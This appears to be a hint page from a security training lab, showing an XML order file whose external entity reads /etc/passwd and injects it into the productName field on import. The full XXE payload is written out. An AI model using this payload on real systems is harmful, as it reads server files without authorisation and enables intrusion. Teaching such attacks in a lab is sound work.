

# Hint 4

Put the following XML in an XML file and try to import it.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>


<Orders>
    <Order>
        <id>1995</id>
        <orderDate>1995-05-23</orderDate>
        <OrderLine>
            <id>23</id>
            <quantity>5</quantity>
            <productName>&xxe;</productName>
            <price>0.9</price>
        </OrderLine>
    </Order>
</Orders>
```

You will see that the content of the `passwd` file is published as the productName

